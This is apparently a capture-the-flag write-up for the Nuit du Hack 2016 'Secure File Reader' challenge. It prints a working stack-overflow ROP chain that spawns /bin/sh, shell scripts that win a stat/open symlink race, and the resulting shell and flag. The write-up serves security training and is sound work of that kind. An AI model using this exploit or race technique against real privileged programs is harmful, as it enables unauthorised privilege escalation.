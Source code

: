 ```yaml
---
title: Nuit du Hack 2016 Quals - Secure File Reader - Pwn200 - Writeup
---
```


Hi,

I'm member of Pwnium tunisian CTF team. We were ranked #31 in this CTF ! 
Nice rank for a team of 2 members right ?

I hope we will do better next CTF ;)

The binary file takes a filename as argument and checks if the file size is less than 4096 then dumps its content to a buffer otherwise the program prints an error message.

Using GDB let's try to let the program accept a big filesize. To do this I changed the value returned by the check_size function to 1.

```bash
(python -c 'print "A"*4200') > /tmp/big
gdb pwn
gdb-peda$ b *0x08048F1A
gdb-peda$ r /tmp/big
gdb-peda$ set $eax=1
gdb-peda$ c
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$ i r eip
eip 0x41414141 0x41414141
```

<!--more-->

Great we have a segmentation fault. 4128 bytes is enough to overflow the return address.

The stack is not executable.

```bash
gdb-peda$ vmmap stack
Start      End        Perm Name
0xfffdd000 0xffffe000 rw-p [stack]
```

  
The system and execve does not exist in the binary so we can't do a big thing with Ret2libc.

```bash
readelf -s pwn | grep system
   702: 080d76e0    36 OBJECT  LOCAL  DEFAULT   10 system_dirs
   703: 080d76cc    16 OBJECT  LOCAL  DEFAULT   10 system_dirs_len
readelf -s pwn | grep exec
   890: 080bc800  2311 FUNC    LOCAL  DEFAULT    6 execute_cfa_program
   894: 080bd940  1884 FUNC    LOCAL  DEFAULT    6 execute_stack_op
  1186: 0809e580    88 FUNC    GLOBAL DEFAULT    6 _dl_make_stack_executable
  2209: 080ee9f4     4 OBJECT  GLOBAL DEFAULT   24 _dl_make_stack_executable
```

_dl_make_stack_executable is an interesting function and can be used to mark the stack as executable but I will do the job simpler.

Time for ROP ;)

The binary is statically linked with libc so there is a big probability to hit with a ROP chain to call execv syscall. I used ROPgadget to generate a rop chain. By testing it I got SIGSEGV at 0x00000000 and this because the gadgets contain NULL byte.

xor eax, eax; ret gadgets are located in offssets having NULL bytes. For this reason I had to manually resolve this issue. To go further I replaced xor eax eax; ret gadget with the following 2 gadgets mov eax, 0xffffffff; ret; inc eax; ret this will overflow the EAX register and the value will be 0.

  
The final ropchain I made was the following:


```python
from struct import pack

# Padding goes here
p = "A"*4124

p += pack('<I', 0x0807270a) # pop edx ; ret
p += pack('<I', 0x080ee060) # @ .data
p += pack('<I', 0x080beb26) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x0809dead) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0807270a) # pop edx ; ret
p += pack('<I', 0x080ee064) # @ .data + 4
p += pack('<I', 0x080beb26) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x0809dead) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0807270a) # pop edx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
#p += pack('<I', 0x08054700) # xor eax, eax ; ret  -> Issue here

p += pack('<I', 0x0804fc64)
p += pack('<I', 0x0807f15f)

p += pack('<I', 0x0809dead) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481d1) # pop ebx ; ret
p += pack('<I', 0x080ee060) # @ .data
p += pack('<I', 0x08072731) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
p += pack('<I', 0x080ee060) # padding without overwrite ebx
p += pack('<I', 0x0807270a) # pop edx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
#p += pack('<I', 0x08054700) # xor eax, eax ; ret -> Issue here

p += pack('<I', 0x0804fc64)
p += pack('<I', 0x0807f15f)

p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x08049501) # int 0x80
p += pack('<I', 0xdeadbeef) # deadbeef

f = open('/tmp/payload','wb')
f.write(p)
f.close()
```

Now how to let the program accept the created payload ? The program uses the stat() function to read the file size. This let me think in Race Condition. The idea is to provide a symlink to a small file at the begining and then after the program executes the stat() fucntion and before executing the open() function I point the symlink to the payload (big file). To do this I used the following 2 scripts:

  
race1.sh file

```bash
#!/bin/sh
for i in `seq 10000`
do
cp /tmp/small /tmp/flag
rm /tmp/flag
ln -s /tmp/payload /tmp/flag
rm /tmp/a
done
```

race2.sh file

```bash
#!/bin/sh
for i in `seq 10000`
do
/home/chall/pwn /tmp/flag
done
```

Copy all the necessary files to the server using SCP.

```bash
scp  -P 55552 /tmp/payload chall@securefilereader.quals.nuitduhack.com:/tmp
scp  -P 55552 /tmp/race1.sh chall@securefilereader.quals.nuitduhack.com:/tmp
scp  -P 55552 /tmp/race2.sh chall@securefilereader.quals.nuitduhack.com:/tmp
scp  -P 55552 /tmp/small chall@securefilereader.quals.nuitduhack.com:/tmp

```

Put all stuffs togther

```
cd /tmp
(sh race1.sh &) && sh race2.sh
```


And after few seconds you get a shell for you and your family for free :D

  

```bash
$ id
uid=1001(chall) gid=1001(chall) egid=1000(chall_pwned) groups=1000(chall_pwned),1001(chall)
$ cat /home/chall/flag
rUN!RuN$RUn!Y0U$W1N_TH3_R4c3
$
```

That's all !
